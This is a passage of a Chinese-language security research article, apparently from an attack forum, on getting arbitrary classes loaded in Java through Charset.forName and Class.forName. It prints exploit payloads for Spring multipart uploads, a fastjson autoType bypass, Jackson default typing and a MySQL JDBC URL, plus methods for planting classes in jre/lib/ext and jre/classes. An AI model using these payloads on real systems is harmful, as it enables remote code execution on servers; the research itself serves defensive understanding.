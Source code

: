 standardProvider JDK 定义的标准格式，如 UTF-8，UTF-16extendedProvider JDK 扩展的标准格式  
CharsetProvider SPI，通过 java.nio.charset.spi.CharsetProvider 自定义的格式

从lookupExtendedCharset进入，最后调用Class.forName，如图4：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-c302c9528dfecce96867584d99cc63f003b2eb70.png)

图4 Class.forName函数代码

触发点主要在于Charset.forName，简单搜索一下就可以发现还有类似的满足条件的点，例如org.springframework.http.ContentDisposition#parse，图5:

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-3ba1e92453a108c6424f6158e38037f9420eca7f.png)

图5 parse函数代码

利用上传包来完成利用：

Content-Type: multipart/form-data; boundary=a  
Content-Length: 83

\--a  
Content-Disposition: form-data; name="file"; filename\*="GBK'test'"

xxx  
\--a

1.fastjson

{ "x":{  
 "@type":"java.nio.charset.Charset",  
 "val":"IBM33722"  
 }  
}

1.2.76由于java.nio.charset.Charset在白名单中，可直接绕autoType，最后调用到与spring同样的位置。

2.JackSon

开启enableDefaultTyping情况下:

\["sun.nio.cs.ext.IBM33722",{"x":"y"}\]

3.jdbc url getConnection

GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?statementInterceptors=sun.nio.cs.ext.IBM33722

4.Class forName

5.loadClass newInstance

0x04 利用jre/lib/ext
==================

往ext写入需要将拓展的classes打包为jar，通过ExtClassLoader去加载。利用场景需要如文章开头所述，在应用中有重启功能时才能够被加载。

0x05 利用jre/classes
==================

jre/classes目录默认不存在，利用条件有一点就是需要能够创建目录，往jre/classes写入的类与往classpath写入一般，可直接被加载，不同于ext，该目录下写入的为class后缀的文件即可。
